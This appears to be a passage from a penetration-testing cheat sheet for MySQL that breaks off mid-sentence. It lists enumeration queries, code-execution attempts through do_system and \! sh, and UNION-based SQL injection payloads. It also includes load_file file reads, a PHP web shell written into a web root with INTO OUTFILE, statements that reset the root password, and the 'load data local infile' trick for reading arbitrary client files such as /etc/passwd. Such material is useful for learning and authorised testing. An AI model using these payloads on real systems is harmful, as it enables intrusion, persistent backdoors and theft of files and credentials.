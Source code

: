 ## **Basic & interesting MySQL commands**

```bash
show databases;
use <database>;
show tables;
describe <table_name>;

select grantee, table_schema, privilege_type FROM schema_privileges; #Exact privileges
select user,file_priv from mysql.user where user='root'; #File privileges
select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Try to execute code
select do_system('id');
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```

```bash
mysql -u username -p < manycommands.sql #A file with all the commands you want to execute
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

## MySQL arbitrary read file by client

Actually, when you try to **load data local into a table** the **content of a file** the MySQL or MariaDB server asks the **client to read it** and send the content. **Then, if you can tamper a mysql client to connect to your own MyQSL server, you can read arbitrary files.**  
Please notice that this is the behaviour using:

```bash
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
```

\(Notice the "local" word\)  
Because without the "local" you can get:

